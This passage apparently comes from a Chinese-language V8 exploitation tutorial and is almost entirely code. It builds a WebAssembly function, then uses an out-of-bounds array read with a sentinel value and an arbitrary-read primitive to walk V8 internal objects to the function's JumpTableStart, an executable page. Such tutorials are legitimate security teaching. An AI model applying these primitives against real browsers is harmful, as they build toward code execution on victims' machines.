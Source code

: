 ```
    131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,
    6,109,101,109,111,114,121,2,0,4,102,117,110,99,0,0,10,136,128,128,128,
    0,1,130,128,128,128,0,0,11]);
let m = new WebAssembly.Instance(new WebAssembly.Module(wasmCode),`{``}`);
var WasmJSFunction = m.exports.func;
// 输出一下 Wasm JSFunction 地址，并获取其 JumpTableStart
%DebugPrint(WasmJSFunction);
// 之后在 gdb 中给 JumpTableStart 下个断点
%SystemBreak();
// 尝试执行 Wasm JSFunction
WasmJSFunction();
%SystemBreak();
```

```
function prettyHex(bigint)
`{`
  return "0x" + BigInt.asUintN(64,bigint).toString(16).padStart(16, '0');
`}`

// C++ 代码 `void func() `{``}`` 的 wasm 二进制代码
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,132,128,128,128,
    0,1,96,0,0,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,
    131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,
    6,109,101,109,111,114,121,2,0,4,102,117,110,99,0,0,10,136,128,128,128,
    0,1,130,128,128,128,0,0,11]);
var m = new WebAssembly.Instance(new WebAssembly.Module(wasmCode),`{``}`);
var WasmJSFunction = m.exports.func;
// 将WasmJSFunction 布置到与 oob_arr 数组相同的内存段上
// 这里写入了一个哨兵值0x233333，用于查找 WasmJSFunction 地址
var WasmJSFunctionObj = `{`guard: Int64ToFloat64(0x233333), wasmAddr: WasmJSFunction`}`;
var WasmJSFunctionIndex = -1;

for(let i = 0; i &lt; 0x4000; i++)
`{`   
    // 查找哨兵值
    if(Float64ToInt64(oob_arr[i]) == 0x233333)
    `{`
        WasmJSFunctionIndex = i + 1;
        break;
    `}`
`}`

// 简单确认一下是否成功找到 WasmJSFunctionAddr
if(WasmJSFunctionIndex == -1)
    throw "WasmJSFunctionAddr is not found!";
else
    log("[+] find WasmJSFunctionAddr offset: " + WasmJSFunctionIndex);

// 获取 WasmJSFunction 地址
WasmJSFunctionAddr = Float64ToInt64(oob_arr[WasmJSFunctionIndex]) - BigInt(1);
log("[+] find WasmJSFunction address: " + prettyHex(WasmJSFunctionAddr));
// 获取 SharedFunctionInfo 地址
SharedFunctionInfoAddr = read_8bytes(WasmJSFunctionAddr + BigInt(0x18)) - BigInt(1);
log("[+] find SharedFunctionInfoAddr address: " + prettyHex(SharedFunctionInfoAddr));
// 获取 WasmExportedFunctionData 地址
WasmExportedFunctionDataAddr = read_8bytes(SharedFunctionInfoAddr + BigInt(0x8)) - BigInt(1);
log("[+] find WasmExportedFunctionDataAddr address: " + prettyHex(WasmExportedFunctionDataAddr));
// 获取 WasmInstanceObject 地址
WasmInstanceObjectAddr = read_8bytes(WasmExportedFunctionDataAddr + BigInt(0x10)) - BigInt(1);
log("[+] find WasmInstanceObjectAddr address: " + prettyHex(WasmInstanceObjectAddr));
// 获取 JumpTableStart 地址
JumpTableStartAddr = read_8bytes(WasmInstanceObjectAddr + BigInt(0xe8));
log("[+] find JumpTableStartAddr address: " + prettyHex(JumpTableStartAddr));
```